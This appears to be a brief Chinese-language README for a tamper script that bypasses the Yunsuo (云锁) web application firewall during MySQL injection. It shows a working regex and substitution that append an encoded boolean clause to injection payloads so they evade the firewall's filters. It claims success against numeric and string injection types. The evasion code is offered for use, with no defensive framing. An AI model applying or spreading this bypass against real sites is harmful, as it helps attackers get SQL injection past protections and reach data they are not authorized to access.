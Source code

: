 # Bypass


## 云锁绕过

当前版本的tamper可以绕过Mysql的注入的数字型，字符型，警告经过测试仅有一个xss。

tamper中的代码，前三个if判断仅仅是为了减少报错，真正完成匹配并替换的只有以下两句。
```python
rex = '^-{0,1}?[\d|\w]*%{0,1}[\'|"|`]*\\)*[ |;]'                        
payload = re.sub(rex, lambda x:x.group(0)+" %26%26 1!='%23' ", payload)   
```

